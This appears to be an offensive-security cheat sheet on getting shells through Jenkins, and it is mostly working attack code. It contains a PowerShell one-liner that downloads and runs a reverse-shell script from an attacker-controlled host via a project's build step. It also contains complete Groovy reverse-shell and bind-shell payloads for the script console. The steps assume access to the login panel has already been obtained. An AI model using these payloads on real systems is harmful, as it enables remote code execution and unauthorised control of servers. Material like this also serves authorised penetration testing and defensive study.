 # Jenkins

### Through Existing Project

1. First get access to jenkins login panel and then login
2. Under Project Options, there is a configure tab which allows to execute system commands
3. You can put a reverse shell payload there
   * ```powershell
     powershell iex (New-Object Net.WebClient).DownloadString('http://your-ip:your-port/Invoke-PowerShellTcp.ps1');Invoke-PowerShellTcp -Reverse -IPAddress your-ip -Port your-port
     ```
   * You first need to download the [Powershell script](https://github.com/samratashok/nishang/blob/master/Shells/Invoke-PowerShellTcp.ps1), and make it available for the server to download. You can do this by creating a http server with python: `python3 -m http.server`
4. After Re-Building the project, your malicious reverse shell code would be executed



### Reverse Shell through Groovy Scripting Console

```powershell
String host="localIP";
int port=8044;
String cmd="cmd.exe";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start();Socket s=new Socket(host,port);InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();OutputStream po=p.getOutputStream(),so=s.getOutputStream();while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```



### Bind Shell through Groovy Scripting Console

Bind shell is useful in case we have used pivoting technique and the target does not know how to communicate back to us

```powershell
int port=5555;
String cmd="/bin/bash";
Process p=new ProcessBuilder(cmd).redirectErrorStream(true).start()
Socket s = new java.net.ServerSocket(port).accept()
InputStream pi=p.getInputStream(),pe=p.getErrorStream(), si=s.getInputStream();
OutputStream po=p.getOutputStream(),so=s.getOutputStream();
while(!s.isClosed()){while(pi.available()>0)so.write(pi.read());while(pe.available()>0)so.write(pe.read());while(si.available()>0)po.write(si.read());so.flush();po.flush();Thread.sleep(50);try {p.exitValue();break;}catch (Exception e){}};p.destroy();s.close();
```
